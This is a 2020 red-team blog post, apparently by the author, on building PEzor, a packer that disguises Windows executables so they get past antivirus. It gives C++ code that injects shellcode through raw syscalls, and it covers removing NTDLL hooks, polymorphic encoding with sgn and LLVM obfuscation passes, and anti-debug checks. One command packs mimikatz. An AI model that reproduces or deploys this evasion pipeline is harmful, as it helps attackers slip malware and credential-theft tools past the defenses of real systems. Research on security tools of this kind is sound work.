



_**Jul 13, 2020**_

# Designing and Implementing PEzor, an Open-Source PE Packer

Red teamers often have the necessity of bypassing AV solutions and I recently needed a more powerful tool than [x0rro](https://github.com/phra/x0rro) in order to perform some tasks and bypass a solution that I was targeting.
At the end of my development journey, I was satisfied enough with the result that I decided to open source the design and the implementation processes that I have followed in order to build my solution.



## Intro
Due to some research I am currently doing, I needed a tool that could shape in a different form pre-existing executables in order to evade known signatures implemented in endpoint security solutions and evaluate the robustness of their detection engines.
I have a strong preference over POSIX operating systems and so I wanted something that I would be able to run on a GNU/Linux distro without requiring an entire Windows/Visual Studio installation in order to compile the executable: for this reason, I have choosen the [Mingw-w64](https://en.wikipedia.org/wiki/Mingw-w64) development environment, but I am sure that the code can be ported to official development environments as well. The only requirement that we have to met is to provide a [LLVM](https://llvm.org/)-based toolchain in order to execute raw syscalls since it's the only compiler supported by the library that we are using to inline the execution of syscalls.
What it looks like a limitation right now, it will instead become very handy when we will think about how to make polymorphic the generated executable in order to evade trivial signatures.

The phases of the development that will be described in detail are:

1. set up the development environment with [Mingw-w64](https://en.wikipedia.org/wiki/Mingw-w64) and [LLVM](https://llvm.org/)
2. shellcode injection with syscall inlining via NTDLL in-memory scraping (x86-64 only)
3. user-land hooks removal from in-memory NTDLL to retrieve correct syscall numbers
4. upgrade the shellcode injector to a full PE packer with Donut
5. ensure the produced shellcode is always different at each build with sgn
6. ensure the compiled loader is always different at each build with LLVM obfuscation
7. implement some simple anti-debug tricks for the initial loader

## Setting up the Development Environment

We need to set up a toolchain that uses [Mingw-w64](https://en.wikipedia.org/wiki/Mingw-w64) together with [LLVM](https://llvm.org/)/[Clang](https://clang.llvm.org/). First let's install the development environment with `apt`:

```bash
apt install mingw-w64 clang build-essential
```

After that, we can proceed to integrate them together by using the [Wclang](https://github.com/tpoechtrager/wclang) project.

```bash
git clone --depth 1 https://github.com/tpoechtrager/wclang.git &&
cd wclang &&
cmake -DCMAKE_INSTALL_PREFIX=_prefix_ . &&
make &&
make install &&
cd ..
```

When it finishes, we will find the following executables in the `_prefix_` folder:

- `i686-w64-mingw32-clang`
- `i686-w64-mingw32-clang++`
- `x86_64-w64-mingw32-clang`
- `x86_64-w64-mingw32-clang++`

To confirm that everything works correctly we can compile a simple program, such as an Hello World:

```cpp
#include <iostream>

int main() {
  std::cout << "Hello, World!" << std::endl;
  return 0;
}
```

with the following command:

```bash
x86_64-w64-mingw32-clang++ -o hello.exe hello.cpp
```

At this point, we have a working toolchain that is able to cross compile Windows executables from our GNU/Linux machine by using [Mingw-w64](https://en.wikipedia.org/wiki/Mingw-w64) and [LLVM](https://llvm.org/)/[Clang](https://clang.llvm.org/).

## Shellcode Injection with Syscall Inlining

The library that I have used in my solution to inline the execution of the syscalls is called [inline\_syscall](https://github.com/JustasMasiulis/inline_syscall).
This library is able to first scrape the in-memory NTDLL module in order to extract the raw syscall numbers. This is needed because the specific syscall numbers on Windows are constantly changing from release to release. After having retrieved the correct syscall numbers by manually parsing the loaded modules list directly from the PEB at runtime, the library uses dynamically generated stubs to manually invoke those syscalls without directly calling the loaded copy of NTDLL.
The library has be used in the following fashion:
first we need to declare the function prototypes of the syscalls that we want to invoke, after that we can use the `INLINE_SYSCALL` macro in order to invoke the specific syscall in a natural and elegant way.
Then, at runtime, the `jm::init_syscalls_list()` function has to be called once at the beginning in order to scrape the in-memory copy of the loaded NTDLL and extract the syscall numbers for the specific Windows target.
The following snippet shows the required code to be able to invoke the NtAllocateVirtualMemory syscall, the equivalent syscall of the `VirtualAlloc` Win32 API.

```cpp
#include <windows.h>
#include "inline_syscall/include/in_memory_init.hpp"

NTSTATUS NtAllocateVirtualMemory(
    _In_ HANDLE ProcessHandle,
    _Inout_ _At_(*BaseAddress, _Readable_bytes_(*RegionSize) _Writable_bytes_(*RegionSize) _Post_readable_byte_size_(*RegionSize)) PVOID *BaseAddress,
    _In_ ULONG_PTR ZeroBits,
    _Inout_ PSIZE_T RegionSize,
    _In_ ULONG AllocationType,
    _In_ ULONG Protect);

int main(int argc, char** argv) {
    jm::init_syscalls_list();
    void *allocation = nullptr;
    NTSTATUS status = STATUS_PENDING;
    status = INLINE_SYSCALL(NtAllocateVirtualMemory)(
        (HANDLE)-1,
        &allocation,
        0,
        &size,
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE
    );

    if (!allocation) {
        return -1;
    }

    return 0;
}
```

Usually, in order to be able to inject some shellcode in the current process or a remote one, the simplest way to do it is to invoke the following Win32 APIs: VirtualAlloc, WriteMemoryProcess, CreateRemoteThread and WaitForSingleObject.

We need to find the equivalent syscalls in order to achieve the same result. After a bit of research, I came out with the following mapping:

|Win32 API|Syscall|
|-|-|
|VirtualAlloc|NtAllocateVirtualMemory|
|WriteProcessMemory|NtWriteVirtualMemory|
|CreateRemoteThread|NtCreateThreadEx|
|WaitForSingleObject|NtWaitForSingleObject|

The minimal snippet showing a basic shellcode injection via raw, manually executed syscalls is the following:

```cpp
#include <windows.h>
#include "inline_syscall/include/in_memory_init.hpp"

NTSTATUS NtAllocateVirtualMemory(
    _In_ HANDLE ProcessHandle,
    _Inout_ _At_(*BaseAddress, _Readable_bytes_(*RegionSize) _Writable_bytes_(*RegionSize) _Post_readable_byte_size_(*RegionSize)) PVOID *BaseAddress,
    _In_ ULONG_PTR ZeroBits,
    _Inout_ PSIZE_T RegionSize,
    _In_ ULONG AllocationType,
    _In_ ULONG Protect);

NTSTATUS NtWriteVirtualMemory(
    _In_ HANDLE ProcessHandle,
    _In_opt_ PVOID BaseAddress,
    _In_reads_bytes_(BufferSize) PVOID Buffer,
    _In_ SIZE_T BufferSize,
    _Out_opt_ PSIZE_T NumberOfBytesWritten);

NTSTATUS NtCreateThread(
    _Out_ PHANDLE ThreadHandle,
    _In_ ACCESS_MASK DesiredAccess,
    _In_opt_ POBJECT_ATTRIBUTES ObjectAttributes,
    _In_ HANDLE ProcessHandle,
    _Out_ PCLIENT_ID ClientId,
    _In_ PCONTEXT ThreadContext,
    _In_ PINITIAL_TEB InitialTeb,
    _In_ BOOLEAN CreateSuspended);

NTSTATUS NtWaitForSingleObject(
    _In_ HANDLE Handle,
    _In_ BOOLEAN Alertable,
    _In_opt_ PLARGE_INTEGER Timeout
    );

unsigned char* shellcode = "\xcc";

int main(int argc, char** argv) {
    jm::init_syscalls_list();
    void *allocation = nullptr;
    NTSTATUS status = STATUS_PENDING;
    HANDLE hThread = -1;
    status = INLINE_SYSCALL(NtAllocateVirtualMemory)(
        (HANDLE)-1,
        &allocation,
        0,
        &size,
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE
    );

    if (status || !allocation) {
        return -1;
    }

    status = INLINE_SYSCALL(NtWriteVirtualMemory)(
        (HANDLE)-1,
        allocation,
        shellcode,
        size,
        &bytesWritten);

    if (status) {
        return -1;
    }

    status = INLINE_SYSCALL(NtCreateThreadEx)(
        &hThread,
        THREAD_ALL_ACCESS,
        nullptr,
        (HANDLE)-1,
        allocation,
        allocation,
        0,
        0,
        0,
        0,
        nullptr);

    if (status) {
        return -1;
    }

    status = INLINE_SYSCALL(NtWaitForSingleObject)(hThread, TRUE, NULL);
    
    if (status) {
        return -1;
    }

    return 0;
}
```

Now that we are able to execute arbitrary shellcode via raw syscalls, we will upgrade our PoC to a full blown PE loader by integrating the amazing [Donut](https://github.com/TheWover/donut) project in order to convert executables, DLLs, .NET assemblies et cetera into shellcode and execute that via raw syscalls.
Anyway, by trying our current, simple injector on different AV products, we notice some crashes with specific solutions: in particular, if the AV modifies the in-memory NTDLL by injecting some code at the process creation, we are not able anymore to scrape correctly the module to retrieve the syscalls numbers. In order to solve this problem, we will integrate another project called [DLLRefresher](https://github.com/CylanceVulnResearch/ReflectiveDLLRefresher).

## User-Land Hooks Removal

AV solutions often puts user-land checks by hooking some critical functions in the Windows APIs, such as `CreateRemoteThread` in order to monitor and eventually block malicious invocations, e.g. by looking for known signatures in the memory area where the thread is being created.
If a product insert an inline hook in the `NtCreateThreadEx` function in the NTDLL module for monitoring purposes, we will not be able to scrape the syscall number correctly, leading to an undefined behaviour when we will try to manually invoke the syscall.
In order to fix the mentioned issue, we need to restore the copy in-memory of the modified NTDLL from disk before scraping it. The project [DLLRefresher](https://github.com/CylanceVulnResearch/ReflectiveDLLRefresher) does exactly what we need and we will invoke its functionality immediately at the startup of our process. 
After having integrated the C codebase into our C++ one, we can confirm that this has fixed the crashes we were experiencing with some specific security solutions.
We can now proceed to integrate [Donut](https://github.com/TheWover/donut) in order to upgrade our current simple injector to a full-blown PE loader.

## Upgrading the Shellcode Injector to a PE Loader

At this point we need an _orchestrator_ that can coordinate the execution of various phases in our pipeline. I have choosen to write a [GNU Bash](https://en.wikipedia.org/wiki/Bash_(Unix_shell\)) script since I am developing on a GNU/Linux operating system and we will need to invoke multiple external programs during the execution of our pipeline, which makes `Bash` one of the best candidate to choose from.
At this point, we will start to build the logic of our PE packer by detecting if we are being invoked to pack a raw shellcode or a full Portable Executable: to do that, I will use the `file` utility.
In case we are dealing with a PE file, we first need to invoke [Donut](https://github.com/TheWover/donut) in order to fallback to the raw shellcode case after it completed its job.
Once we finish to write the integration, we can test it out by packing anything supported by Donut itself and launch the resulting executable in a VM to confirm that everything works out correctly. 

## Making the Generated Executable Polymorphic to Avoid Trivial Signatures

In order to make harder the implementation of easy signatures for the Donut loader, we can encode the resulting shellcode with some existing tools, such as [sgn](https://github.com/EgeBalci/sgn). This project aims to provide an improved implementation of the original Metasploit's one [Shikata Ga-Nai](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) encoding algorithm and I stronly suggest you to read the README in order to understand the implemented improvements. In this way, at each build, we will generated a different output for the very same original PE or shellcode.
Now that we have a different payload being generated at each build, we need to think about a way to make our loader polymorphic too in order to evade easy signatures. In order to to that, I have integrated some LLVM obfuscation passes that work directly at the LLVM IR level, in order to produce a valid, equivalent binary.
After researching the LLVM obfuscation topic a bit, I decided to integrate both in-tree and out-of-tree LLVM obfuscation passes, in particular I have choosen [YANSOllvm](https://github.com/emc2314/YANSOllvm) and [dumb-obfuscator](https://github.com/thebabush/dumb-obfuscator), to demonstrate how to integrate both flavors together.
`YANSOllvm`, in order to be used, it has to be compiled together with the whole [LLVM Framework](https://en.wikipedia.org/wiki/LLVM) since it's an example of in-tree obfuscation passes that implements deeper changes into the framework itself compared to out-of-tree passes and it requires an entire, dedicated compilation of the whole toolchain in order to be utilized.
After having integrated both in our build script, we can analyze in IDA the resulting assembly of the generated executable:



We can also confirm that each build of our generated executable is different enough for our purposes with some simple commands, that are:

```bash
PEzor -sgn -unhook -syscalls -obfuscate mimikatz/x64/mimikatz.exe &&
mv mimikatz/x64/mimikatz.packed.exe mimikatz.exe.1 &&
PEzor -sgn -unhook -syscalls -obfuscate mimikatz/x64/mimikatz.exe &&
mv mimikatz/x64/mimikatz.packed.exe mimikatz.exe.2 &&
xxd mimikatz.exe.1 > mimikatz.exe.1.xxd &&
xxd mimikatz.exe.2 > mimikatz.exe.2.xxd &&
vimdiff mimikatz.exe.{1,2}.xxd
```

and we can confirm it in IDA at assembly level:



## Implementing Some Anti-Debug Tricks to Make Reverse Engineering Harder

Now that we have a polymorphic generation of executables, we can look for some known tricks in order to make the debugging of the application harder. Since it's not the core feature of my research, but it's indeed a nice to have, I have integrated some simple tricks that I could find by simply searching for the topic on the Internet.

```cpp
inline void anti_debug(void) {
    DWORD errorValue = 1111;
    SetLastError(errorValue);
    OutputDebugString(" ");
    if (GetLastError() != errorValue) {
        exit(STATUS_SUCCESS);
    }

    __PPEB peb = GetProcessEnvironmentBlock();
    if (peb->bBeingDebugged) {
        exit(STATUS_SUCCESS);
    }

    if (peb->dwNtGlobalFlag & NT_GLOBAL_FLAG_DEBUGGED) {
        exit(STATUS_SUCCESS);
    }
}
```

We have three checks here, one high-level and two low-level:

1. The first one sets the value of the last error to a known value, then it calls the function `OutputDebugString`, that in case the program is running normally it's a no-op, and afterwards it checks for the value of the last error: if the value is different, it means that the `OutputDebugString` function was called since the value of the last error was changed.
2. The second one checks for the value of the `bBeingDebugged` field in the `__PEB` struct that if the application was launched by a debugger, it should be different than zero.
3. The third one checks the `dwNtGlobalFlag` field in the `__PEB` struct that in case of a debugging sessions it should have the `NT_GLOBAL_FLAG_DEBUGGED` bit set to one.

We will perform these checks before trasferring execution to the generated shellcode at the previous step in the pipeline, and so before our decoding will take place, in order to make the debugging/unpacking process just a bit more time consuming.

## Source Code

I am planning to release the [source code](https://github.com/phra) of my research on my [Github](https://github.com/phra) in the next days to leave some time up to defenders to perform some research too. If you are a _legit_ security vendor and you want to perform some testing before the public release, feel free to DM me on [Twitter](https://twitter.com/phraaaaaaa) or [Linkedin](https://www.linkedin.com/in/phraa/).
As always, PRs and bug reports are welcome!

[back](../)
